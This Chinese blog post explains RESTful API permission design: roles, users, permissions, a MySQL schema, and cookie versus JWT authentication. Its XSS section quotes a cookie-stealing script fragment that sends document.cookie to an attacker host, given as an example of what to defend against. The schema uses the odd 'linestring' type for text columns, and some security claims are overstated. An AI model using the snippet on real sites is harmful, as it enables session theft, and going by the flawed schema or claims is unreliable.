










本文主要介绍基于 RESTful，如何实现不同的人不同的角色对于不同的资源不同的操作的权限控制。

* TOC
{:toc}

# 1 RESTful API 简介

本文是基于 RESTful 描述的，需要你对这个有初步的了解。那 RESTful 到底是什么？

Representational State Transfer，简称 REST，是 Roy Fielding 博士在2000年他的博士论文中提出来的一种软件架构风格。

REST比较重要的点是资源和状态转换，所谓"资源"，就是网络上的一个实体，或者说是网络上的一个具体信息。它可以是一段文本、一张图片、一首歌曲、一种服务，总之就是一个具体的实在。而"状态转换"，则是把对应的HTTP协议里面，四个表示操作方式的动词分别对应四种基本操作：


- (1) GET，用来浏览(browse)资源
- (2) POST，用来新建(create)资源
- (3) PUT，用来更新(update)资源
- (4) DELETE，用来删除(delete)资源




关于 RESTful 的详细介绍请自行 Google; 不过你可以先在这里了解下：[怎样用通俗的语言解释什么叫 REST，以及什么是 RESTful？](https://www.zhihu.com/question/28557115)

# 2 资源的分类及操作

清楚了资源的概念，然后再来对资源进行一下分类，我把资源大致分为下面三类（具体业务需求具体对待）：

- (1) 私人资源 (Personal Source)
- (2) 角色资源 (Roles Source)
- (3) 公共资源 (Public Source)



"**私人资源**"：是属于某一个用户所有的资源，只有用户本人才能操作，其他用户不能操作。例如用户的个人信息、订单、收货地址等等。

"**角色资源**"：与私人资源不同，角色资源范畴更大，一个角色可以对应多个人，也就是一群人。如果给某角色分配了权限，那么只有身为该角色的用户才能拥有这些权限。例如系统资源只能够管理员操作，一般用户不能操作。

"**公共资源**"：所有人无论角色都能够访问并操作的资源。

而对资源的操作，无非就是分为四种：

- (1) 浏览 (browse)
- (2) 新增 (create)
- (3) 更新 (update)
- (4) 删除 (delete)

# 3 角色、用户、权限之间的关系

角色和用户的概念，自不用多说，大家都懂，但是权限的概念需要提一提。

"权限"，就是资源与操作的一套组合，例如"增加用户"是一种权限，"删除用户"是一种权限，所以对于一种资源所对应的权限有且只有四种。



`角色`与`用户`的关系：一个角色对应一群用户，一个用户也可以扮演多个角色，所以它们是`多对多`的关系。

`角色`与`权限`的关系：一个角色拥有一堆权限，一个权限却只能属于一个角色，所以它们是`一(角色)对多(权限)`的关系

`权限`与`用户`的关系：由于一个用户可以扮演多个角色，一个角色拥有多个权限，所以用户与权限是间接的`多对多`关系。



**需要注意两种特别情况：**

私人资源与用户的关系，一种私人资源对应的四种权限只能属于一个用户，所以这种情况下，用户和权限是一(用户)对多(权限)的关系。

超级管理员的角色，这个角色是神一般的存在，能无视一切阻碍，对所有资源拥有绝对权限，甭管你是私人资源还是角色资源。

# 4 数据库表的设计

角色、用户、权限的模型应该怎么样设计，才能满足它们之间的关系？



对上图的一些关键字段进行说明：

- Source
  - name: 资源的名称，也就是其他模型的名称，例如：user、role等等。
  - identity: 资源的唯一标识，可以像uuid，shortid这些字符串，也可以是model的名称。
  - permissions : 一种资源对应有四种权限，分别对这种资源的browse、create、update、delete

- Permission
  - source : 该权限对应的资源，也就是Source的某一条记录的唯一标识
  - action ：对应资源的操作，只能是browse、create、update、delete四个之一
  - relation：用来标记该权限是属于私人的，还是角色的，用于OwnerPolicy检测
  - roles: 拥有该权限的角色

- Role
  - users : 角色所对应的用户群，一个角色可以对应多个用户
  - permissions: 权限列表，一个角色拥有多项权利

- User
  - createBy : 该记录的拥有者，在user表里，一般等于该记录的唯一标识，这一属性用于OwnerPolicy的检测，其他私有资源的模型设计，也需要加上这一字段来标识资源的拥有者。
  - roles : 用户所拥有的角色

```sql
/*
Navicat MySQL Data Transfer

Source Server         : localhost
Source Server Version : 50505
Source Host           : localhost:3306
Source Database       : restful-api

Target Server Type    : MYSQL
Target Server Version : 50505
File Encoding         : 65001

Date: 2016-10-08 14:29:22
*/

SET FOREIGN_KEY_CHECKS=0;

-- ----------------------------
-- Table structure for `permission`
-- ----------------------------
DROP TABLE IF EXISTS `permission`;
CREATE TABLE `permission` (
  `id` int(11) NOT NULL AUTO_INCREMENT COMMENT '权限唯一标识符',
  `source_id` int(11) NOT NULL COMMENT '权限对应资源唯一标识符',
  `role_id` int(11) NOT NULL COMMENT '拥有该权限的角色',
  `name` linestring NOT NULL COMMENT '权限名称',
  `action` linestring NOT NULL COMMENT '权限对应的动作',
  `relation` tinyint(4) NOT NULL COMMENT '权限类型（1：私有权限 2：角色权限）',
  PRIMARY KEY (`id`)
) ENGINE=InnoDB DEFAULT CHARSET=utf8;

-- ----------------------------
-- Records of permission
-- ----------------------------

-- ----------------------------
-- Table structure for `role`
-- ----------------------------
DROP TABLE IF EXISTS `role`;
CREATE TABLE `role` (
  `id` int(11) NOT NULL AUTO_INCREMENT COMMENT '角色唯一标识符',
  `name` linestring NOT NULL COMMENT '角色名称',
  `users` linestring NOT NULL COMMENT '角色所对应的用户群（array）',
  `permissions` linestring NOT NULL COMMENT '权限列表（array）',
  PRIMARY KEY (`id`)
) ENGINE=InnoDB DEFAULT CHARSET=utf8;

-- ----------------------------
-- Records of role
-- ----------------------------

-- ----------------------------
-- Table structure for `source`
-- ----------------------------
DROP TABLE IF EXISTS `source`;
CREATE TABLE `source` (
  `id` int(11) NOT NULL AUTO_INCREMENT COMMENT '资源唯一标识符',
  `name` linestring NOT NULL COMMENT '资源名称（string）',
  `permissions` linestring NOT NULL COMMENT '权限列表（array）',
  PRIMARY KEY (`id`)
) ENGINE=InnoDB DEFAULT CHARSET=utf8;

-- ----------------------------
-- Records of source
-- ----------------------------

-- ----------------------------
-- Table structure for `user`
-- ----------------------------
DROP TABLE IF EXISTS `user`;
CREATE TABLE `user` (
  `id` int(11) NOT NULL AUTO_INCREMENT COMMENT '用户唯一标识符',
  `username` linestring NOT NULL COMMENT '用户名称',
  `create-by` linestring NOT NULL COMMENT '该记录的所有者',
  `role_ids` linestring NOT NULL COMMENT '用户所拥有的角色',
  PRIMARY KEY (`id`)
) ENGINE=InnoDB DEFAULT CHARSET=utf8;

-- ----------------------------
-- Records of user
-- ----------------------------
```

# 5 常见的权限管理解决方案

## 5.1 基于 Cookie Auth 权限管理解决方案

Cookie Auth 实现 RESTful API 是一种简单的认证方式，Cookie认证机制就是使用一次 HTTP Basic Auth 认证，当通过 HTTP Basic Auth 认证后，在服务端创建一个Session对象；在响应过程中携带Session_id到客户端。在此次请求完成之后，客户端的浏览器端创建了一个Cookie对象（与Session一一对应，标识用户身份）存储在客户端，之后的每次请求都会携带Cookie到服务端，通过客户端带上来Cookie对象来与服务器端的Session对象匹配来实现状态管理的。默认的，当我们关闭浏览器的时候，Cookie会被删除。但可以通过修改Cookie的expire time使Cookie在一定时间内有效。

Cookie Auth 示意图：



### 5.1.1 基于 sails-permissions 套件的权限管理解决方案

在Sails下，有一个很方便的套件 [sails-permissions](https://github.com/tjwebb/sails-permissions) ，集成了一套权限管理的方案，下面介绍的也是基于该套件的源码所引出来的权限管理解决方案。

在sails下称为策略(Policy)，在java SSH下称为过滤器(Filter)，无论名称如何，他们工作原理是大同小异的，主要是在一条HTTP请求访问一个Controller下的action之前进行检测。所以在这一层，我们可以自定义一些策略/过滤器来实现权限控制。为行文方便，下面姑且允许我使用策略这一词。

**策略 (Policy)**

下面排版顺序对应Policy的运行顺序：

- (1) SessionAuthPolicy：检测用户是否已经登录，用户登录是进行下面检测的前提。
- (2) SourcePolicy：检测访问的资源是否存在，主要检测Source表的记录
- (3) PermissionPolicy：检测该用户所属的角色，是否有对所访问资源进行对应操作的权限。
- (4) OwnerPolicy：如果所访问的资源属于私人资源，则检测当前用户是否该资源的拥有者。
- (5) 如果通过所有policy的检测，则把请求转发到目标action。



## 5.2 基于 Token Auth 的权限管理解决方案



### 5.2.1 基于 JWT 的 Token 认证机制的权限管理解决方案

JSON Web Token（JWT）是一个非常轻巧的规范。这个规范允许我们使用JWT在用户和服务器之间传递安全可靠的信息。

#### 5.2.1.1 JWT的组成

一个JWT实际上就是一个字符串，它由三部分组成，头部、载荷与签名。

##### 头部（Header）

JWT还需要一个头部，头部用于描述关于该JWT的最基本的信息，例如其类型以及签名所用的算法等。这也可以被表示成一个JSON对象。

```json
{
	"typ": "JWT",
	"alg": "HS256"
}
```

##### 载荷（Payload）

```json
{ "iss": "Online JWT Builder", 
  "iat": 1416797419, 
  "exp": 1448333419, 
  "aud": "www.example.com", 
  "sub": "jrocket@example.com", 
  "GivenName": "Johnny", 
  "Surname": "Rocket", 
  "Email": "jrocket@example.com", 
  "Role": [ "Manager", "Project Administrator" ] 
}
```

- iss: 该JWT的签发者，是否使用是可选的；
- sub: 该JWT所面向的用户，是否使用是可选的；
- aud: 接收该JWT的一方，是否使用是可选的；
- exp(expires): 什么时候过期，这里是一个Unix时间戳，是否使用是可选的；
- iat(issued at): 在什么时候签发的(UNIX时间)，是否使用是可选的；

其他还有：

- nbf (Not Before)：如果当前时间在nbf里的时间之前，则Token不被接受；一般都会留一些余地，比如几分钟；是否使用是可选的；

##### 生成 Signature

```
// 1. Headers
// 包括类别（typ）、加密算法（alg）；
{
  "alg": "HS256",
  "typ": "JWT"
}

// 2. Payload
// 包括需要传递的用户信息；
{ "iss": "Online JWT Builder", 
  "iat": 1416797419, 
  "exp": 1448333419, 
  "aud": "www.example.com", 
  "sub": "jrocket@example.com", 
  "GivenName": "Johnny", 
  "Surname": "Rocket", 
  "Email": "jrocket@example.com", 
  "Role": [ "Manager", "Project Administrator" ] 
}

// 3. Signature
// 根据alg算法与私有秘钥进行加密得到的签名字串；这一段是最重要的敏感信息，只能在服务端解密
HMACSHA256(  
    base64UrlEncode(header) + "." +
    base64UrlEncode(payload),
    SECREATE_KEY
)
```

>小知识：Base64是一种基于64个可打印字符来表示二进制数据的表示方法。由于2的6次方等于64，所以每6个比特为一个单元，对应某个可打印字符。三个字节有24个比特，对应于4个Base64单元，即3个字节需要用4个可打印字符来表示。JDK 中提供了非常方便的 BASE64Encoder 和 BASE64Decoder，用它们可以非常方便的完成基于 BASE64 的编码和解码

[jwt官网：jwt introduction](https://jwt.io/introduction/)

#### 5.2.1.2  基于 JWT 的 Token 认证机制的认证过程

##### 登录认证


##### 请求认证


#### 5.2.1.3 对 Token 认证的五点认识

对Token认证机制有5点直接注意的地方：

- (1) 一个Token就是一些信息的集合；
- (2) 在Token中包含足够多的信息，以便在后续请求中减少查询数据库的几率；
- (3) 服务端需要对Cookie和HTTP Authrorization Header进行Token信息的检查；
- (4) 基于上一点，你可以用一套Token认证代码来面对浏览器类客户端和非浏览器类客户端；
- (5) 因为token是被签名的，所以我们可以认为一个可以解码认证通过的Token是由我们系统发放的，其中带的信息是合法有效的；

#### 5.2.1.4 基于 JWT 的 Token 认证的安全问题

##### 确保验证过程的安全性

如何保证用户名/密码验证过程的安全性；因为在验证过程中，需要用户输入用户名和密码，在这一过程中，用户名、密码等敏感信息需要在网络中传输。因此，在这个过程中建议采用HTTPS，通过SSL加密传输，以确保通道的安全性。

##### 如何防范 XSS Attacks?

浏览器可以做很多事情，这也给浏览器端的安全带来很多隐患，最常见的如：XSS攻击：跨站脚本攻击(Cross Site Scripting)；如果有个页面的输入框中允许输入任何信息，且没有做防范措施，如果我们输入下面这段代码：

```html
 a.src='https://hackmeplz.com/yourCookies.png/?cookies=’
+document.cookie;return a}())"
```

这段代码会盗取你域中的所有cookie信息，并发送到 hackmeplz.com；那么我们如何来防范这种攻击呢？

###### XSS 攻击代码过滤

移除任何会导致浏览器做非预期执行的代码，这个可以采用一些库来实现（如：js下的js-xss，JAVA下的XSS HTMLFilter，PHP下的TWIG）；如果你是将用户提交的字符串存储到数据库的话（也针对SQL注入攻击），你需要在前端和服务端分别做过滤；

###### 采用 HTTP-Only Cookies

通过设置Cookie的参数： HttpOnly; Secure 来防止通过JavaScript 来访问Cookie；

注：在实际使用中，我们可以使FireCookie查看我们设置的Cookie 是否是HttpOnly。

##### 如何防范 Replay Attacks?

所谓重放攻击就是攻击者发送一个目的主机已接收过的包，来达到欺骗系统的目的，主要用于身份认证过程。比如在浏览器端通过用户名/密码验证获得签名的Token被木马窃取。即使用户登出了系统，黑客还是可以利用窃取的Token模拟正常请求，而服务器端对此完全不知道，因为JWT机制是无状态的。

针对这种情况，有几种常用做法可以用作参考：

- (1) 时间戳 + 共享秘钥
- (2) 时间戳 + 共享秘钥 + 黑名单 （类似[Zendesk](https://support.zendesk.com/hc/en-us/articles/203663816-Setting-up-single-sign-on-with-JWT-JSON-Web-Token-)的做法）

注：[这两种做法的具体实现参考](http://www.cnblogs.com/xiekeli/p/5607107.html)

##### 如何防范 MITM （Man-In-The-Middle）Attacks?

所谓 MITM 攻击，就是在客户端和服务器端的交互过程被监听，比如像可以上网的咖啡馆的 WIFI 被监听或者被黑的代理服务器等；

针对这类攻击的办法使用 HTTPS ，包括针对分布式应用，在服务间传输像 Cookie 这类敏感信息时也采用 HTTPS ；所以云计算在本质上是不安全的。

## 5.3 Cookie Auth 和 Token Auth 的比较

Cookie Auth 应用示意图：



Token Auth 应用示意图：



** Token机制相对于Cookie机制又有什么好处呢？**

- (1) 支持跨域访问: Cookie是不允许垮域访问的，这一点对Token机制是不存在的，前提是传输的用户认证信息通过HTTP头传输.

- (2) 无状态(也称：服务端可扩展行):Token机制在服务端不需要存储session信息，因为Token 自身包含了所有登录用户的信息，只需要在客户端的Cookie或本地介质存储状态信息。

- (3) 更适用CDN: 可以通过内容分发网络请求你服务端的所有资料（如：javascript，HTML,图片等），而你的服务端只要提供API即可。

- (4) 去耦: 不需要绑定到一个特定的身份验证方案。Token可以在任何地方生成，只要在你的API被调用的时候，你可以进行Token生成调用即可。

- (5) 更适用于移动应用: 当你的客户端是一个原生平台（iOS, Android，Windows 8等）时，Cookie是不被支持的（你需要通过Cookie容器进行处理），这时采用Token认证机制就会简单得多。

- (6) CSRF: 因为不再依赖于Cookie，所以你就不需要考虑对CSRF（跨站请求伪造）的防范。

- (7) 性能: 一次网络往返时间（通过数据库查询Session信息）总比做一次HMACSHA256计算 的Token验证和解析要费时得多。

- (8) 不需要为登录页面做特殊处理: 如果你使用Protractor 做功能测试的时候，不再需要为登录页面做特殊处理。

- (9) 基于标准化: 你的API可以采用标准化的 JSON Web Token (JWT)。这个标准已经存在多个后端库（.NET, Ruby, Java, Python, PHP）和多家公司的支持（如：Firebase, Google, Microsoft）。

>参考资料：
>
>[JC_Huang：基于RESTful API 怎么设计用户权限控制？](http://www.jianshu.com/p/db65cf48c111)
>
>[红心李：基于 Token 的 WEB 后台认证机制](http://www.cnblogs.com/xiekeli/p/5607107.html)
>
>[Yushneng：JWT 在前后端分离中的应用与实践](http://blog.rainy.im/2015/06/10/react-jwt-pretty-good-practice/)
>
